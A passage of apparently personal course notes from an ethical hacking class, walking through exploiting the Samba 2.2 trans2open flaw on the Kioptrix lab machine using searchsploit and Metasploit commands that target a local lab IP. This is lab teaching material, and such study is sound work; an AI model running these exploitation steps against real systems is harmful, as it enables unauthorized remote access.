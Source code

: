 ___
We will be gaining the shell of our victim machine the Kioptrix.
We already know about Samba 2.2 version from our Recon so we will start from there 
```
searchsploit samba 2.2 
```

![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%205%20-%20Exploitation%20Basics/assests/Pasted%20image%2020250906001717.png)

We will be finding payload for trans2open in Metasploit because it aligns with our goal which is to gain remote access which i have mentioned in the screenshot above.
Now we will open Metasploit 
```
msfconsole
```

![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%205%20-%20Exploitation%20Basics/assests/Pasted%20image%2020250906002038.png)

We will be using #1 because we know our system is linux as per our Recon so we will choose that 

```
use 1
show options
set rhosts 192.168.15.8
exploit
```

